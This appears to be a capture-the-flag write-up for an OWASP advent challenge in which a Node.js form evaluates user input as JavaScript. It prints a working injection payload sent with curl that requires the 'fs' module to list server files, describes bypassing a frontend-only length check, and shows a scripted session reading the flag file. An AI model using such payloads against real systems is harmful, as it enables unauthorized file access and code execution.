


# Day 3. Naughty list

> The Santa has his naughty list. Can you find where it's stored?

https://naughty.owasp.si/



## Solution

The challenge is an HTML form that sends POST request with `name` and `age` as parameters. Let's be wild and press "Submit" button straight away, without any input:


The Status says "Unexpected end of input", so the backend is likely written in JavaScript. We can try different inputs, but I tried sending `name=this&age=20`, and it yielded `[object global]20` status. So, there is likely a dumb evaluation of `name` parameter as JS code.

Let 's try something like `this.process.mainModule.require('fs').readdirSync('.')` (inspired by [https://ctftime.org/writeup/6773](this writeup)). However, this gives `You won't be on Santa's nice list` status. A quick investigation revealed that `name` parameter has a limit of 20 characters.

However, we can send the same payload in the `age` parameter, because the validation is only performed on frontend. It worked:

```
$ curl -d "name=0&age=this.process.mainModule.require('fs').readdirSync('.')" https://naughty.owasp.si/
<!DOCTYPE html><html lang="en"></html><html><head><meta charset="utf-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no"><title>UserTracker</title><link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-alpha.2/css/bootstrap.min.css"></head><body style="padding: 40px;"><h1 style="text-align: center;">Your Santa's naughty or nice list candidate</h1><br><h5 style="text-align: center;">Carefully review your entry. Candidate will be added to the list soon.</h5><br><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="id">ID:</label><input class="form-control" id="id" type="number" placeholder="1" name="id" disabled value="259"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="name">Name and surname:</label><input class="form-control" id="name" type="text" placeholder="John Doe" name="name" disabled value="0"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="age">Age:</label><input class="form-control" id="age" type="text" placeholder="20" name="age" disabled value="this.process.mainModule.require('fs').readdirSync('.')"></div></div></div><div class="row" style="display:flex; justify-content: center;"><div class="col-md-3"><div class="form-group"><label for="status">Status:</label><input class="form-control" id="status" type="text" placeholder="Naughty" name="status" disabled value="0app.js,node_modules,package-lock.json,package.json,routes,static,views"></div></div></div><br><div class="row" style="display:flex; justify-content: center; text-align: center;"><div class="col-md-3"><div class="form-group"><a class="btn btn-primary" type="button" href="?page=0&amp;pageSize=10">Go back home</a></div></div></div></body></html>
```
Note `app.js,node_modules,package-lock.json,package.json,routes,static,views` in the output. At this point, it became obvious how to get the flag and I did it.

Later this day, I weaponized the [solution](./solution.py) and made getting the flag more comfortable:

```
$ ./solution.py
> ls .
app.js
node_modules
package-lock.json
package.json
routes
static
views

> ls static
flag.txt
users.json

> cat static/flag.txt
ctf{H0m3_Al0n3}
```

## Bonus: source code

I was curious and extracted the whole application, you can find it [here](./src).

How to run:

```
npm i
node app.js
```
